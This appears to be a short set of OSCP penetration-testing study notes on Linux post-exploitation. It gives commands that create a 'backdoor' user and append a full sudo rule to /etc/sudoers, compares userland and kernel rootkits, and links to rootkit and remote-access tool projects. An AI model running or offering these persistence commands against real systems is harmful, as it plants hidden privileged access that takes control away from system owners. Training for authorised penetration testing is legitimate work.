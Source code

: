 OSCP - Linux Post Exploitation
Backdooring Linux
+ Adding a backdoor user (super visible to sysadmin)
Adding users

/usr/sbin/adduser backdoor
passwd backdoor
echo "backdoor ALL=(ALL) ALL" >> /etc/sudoers

+ Plant a rootkit (might make system unstable)
Userland rootkits

   + more stable
   + more likely to remain planted after system updates
   - more visible
   - less control

Kernel rootkits

   + less visible
   + complete control
   - more unstable
   - more likely to cause problems with system updates

https://github.com/n1nj4sec/pupy
https://github.com/r00tkillah/HORSEPILL
http://r00tkit.me/

Resources
http://pentestmonkey.net/blog/post-exploitation-without-a-tty
https://www.blackhat.com/docs/us-16/materials/us-16-Leibowitz-Horse-Pill-A-New-Type-Of-Linux-Rootkit.pdf
